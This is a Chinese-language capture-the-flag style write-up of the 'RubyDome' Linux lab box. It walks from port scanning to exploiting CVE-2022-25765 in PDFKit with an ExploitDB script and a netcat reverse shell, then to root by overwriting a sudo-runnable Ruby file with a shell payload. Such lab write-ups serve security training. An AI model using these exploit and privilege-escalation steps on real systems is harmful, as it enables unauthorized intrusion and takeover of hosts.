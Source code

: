 ```yaml
---
description: Linux - Easy：PDFKit
---
```


# ✔️ RubyDome

## 建立立足点

### 信息枚举

使用Nmap进行开放端口扫描，获得2个开放端口：22和3000

<figure><img src="../.gitbook/assets/1 (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例的“兔子洞”：

<img src="../.gitbook/assets/3 (2).png" alt="" data-size="original">
{% endhint %}

查看3000端口上的Web页面，发现目标是一个可将HTML页面转换为PDF格式的应用：

<figure><img src="../.gitbook/assets/2 (2).png" alt=""><figcaption></figcaption></figure>

尝试随意输入一个URL（http://127.0.0.1），来触发目标应用抛出错误信息，以进一步收集信息：

<figure><img src="../.gitbook/assets/4 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/5 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞查找

查找关于PDFKit相关的已知、公开漏洞，得到：

<figure><img src="../.gitbook/assets/6 (2).png" alt=""><figcaption></figcaption></figure>

本例中，虽为从错误信息中看到任何版本号，但是从初步查找到的公开漏洞的描述信息可得知CVE-2022-25765是针对PDFKit 0.0.0到0.8.7.2版本都适用的，因此可以尝试。

<figure><img src="../.gitbook/assets/7 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

```bash
// 在ExploitDB中查找利用脚本：
searchsploit PDFKit
// 下载利用脚本到Kali本地：
searchsploit -m 51293.py .
```

<figure><img src="../.gitbook/assets/8 (2).png" alt=""><figcaption></figcaption></figure>

查看该脚本的使用方法，供后续构造命令：

<figure><img src="../.gitbook/assets/10 (2).png" alt=""><figcaption></figcaption></figure>

* 参数 -s：设置Kali本机IP和监听的端口
* 参数 -w：设置目标地址和路径（查看目标页面的HTML源码）
* 参数 -p：设置POST的具体参数（查看目标页面的HTML源码）

<figure><img src="../.gitbook/assets/9 (2).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

```bash
// 在Kali上监听端口：
nc -lvnp 4444
// 在Kali中运行利用脚本：
python3 51293.py -s 192.168.45.234 4444 -w http://192.168.225.22:3000/pdf -p url
```

<figure><img src="../.gitbook/assets/11 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/12 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 提升权限

### 本地信息枚举

针对本机进行初步的信息枚举：

```bash
// 简单枚举，若无收获就换工具：
uname -a
find / -perm -u=s -type f 2>/dev/null
sudo -l
```

<figure><img src="../.gitbook/assets/13 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/14 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查找

通过查找目标系统上所有由root用户拥有且设置了SUID位的普通文件，和查看当前用户andrew不需要密码就可以执行的文件/命令，可得出：**当前用户可以在无需密码的情况下，使用sudo ruby来运行app.rb文件**

<figure><img src="../.gitbook/assets/15 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

在GTFOBINS 发现可以使用 ruby​​ 获取 shell。

### 漏洞利用

进入到app.rb文件所在的文件夹，查看其权限，可得知当前用户andrew有权写入文件内容：

<figure><img src="../.gitbook/assets/16 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

在写入payload之前，先备份一个app.rb.bak文件，再写入payload：

```bash
// 备份:
cp app.rb app.rb.bak
// 写入payload:
echo 'exec "/bin/sh"' > app.rb
```

<figure><img src="../.gitbook/assets/17 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

```bash
// 用sudo和ruby运行已重新修改的app.rb文件：
sudo /usr/bin/ruby /home/andrew/app/aap.rb
```

<figure><img src="../.gitbook/assets/18 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/19 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

